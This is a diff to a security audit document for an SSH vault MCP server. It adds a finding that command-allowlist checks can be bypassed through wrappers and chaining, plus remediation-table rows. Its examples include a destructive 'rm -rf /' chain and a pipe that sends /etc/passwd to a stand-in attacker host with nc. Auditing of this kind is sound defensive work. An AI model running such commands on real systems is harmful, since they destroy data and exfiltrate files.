

Before and after one commit to qsobad/ssh-vault-mcp, a Markdown page: SECURITY-AUDIT.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/SECURITY-AUDIT.md
+++ b/SECURITY-AUDIT.md
@@ -529,6 +588,16 @@ If `fs.rename()` fails, the `.tmp` file persists on disk with world-readable per
 Error messages returned to clients include raw error strings that may reveal internal paths, stack traces, or configuration details.
 
 **Fix:** Return generic error messages to clients; log details server-side only.
+
+---
+
+### LOW-06: Policy Bypass via Command Wrapper Evasion
+
+**File:** `src/policy/engine.ts:111-131`
+
+The `extractBaseCommand()` function skips known wrappers (`sudo`, `env`, `nohup`, etc.) but can be bypassed with path-prefixed commands (`/usr/bin/rm`), unlisted wrappers (`bash -c "..."` ), semicollon chaining (`ls ; rm -rf /`), and pipe chaining (`cat /etc/passwd | nc attacker.com 4444`). The base command extraction returns `ls` or `cat` which passes the allowlist, while the destructive chained portion executes.
+
+**Fix:** Reject commands containing shell metacharacters; resolve absolute paths before matching; consider full command analysis.
 
 ---
 
@@ -674,12 +757,14 @@ HIGH-01 (Nonce cleanup) + MEDIUM-13 (State lost on restart)
 | MEDIUM-13 | Persist nonces or reject pre-restart timestamps | Medium |
 | MEDIUM-16 | Validate CORS origin configuration | Low |
 | MEDIUM-18 | Minimize credential time in memory | Medium |
+| MEDIUM-19 | Add Zod validation to management API inputs | Low |
+| MEDIUM-20 | Fix unlock code DOM XSS (use textContent) | Low |
 
 ### Low Priority (P3) - Within 90 days
 
 | ID | Finding | Effort |
 |----|---------|--------|
-| LOW-01 to LOW-05 | Various low-severity hardening | Low each |
+| LOW-01 to LOW-06 | Various low-severity hardening | Low each |
 | INFO-01 to INFO-04 | Informational improvements | Low each |
 
 ---
```
Also changed, not shown: other parts of SECURITY-AUDIT.md (+84 -11 lines).
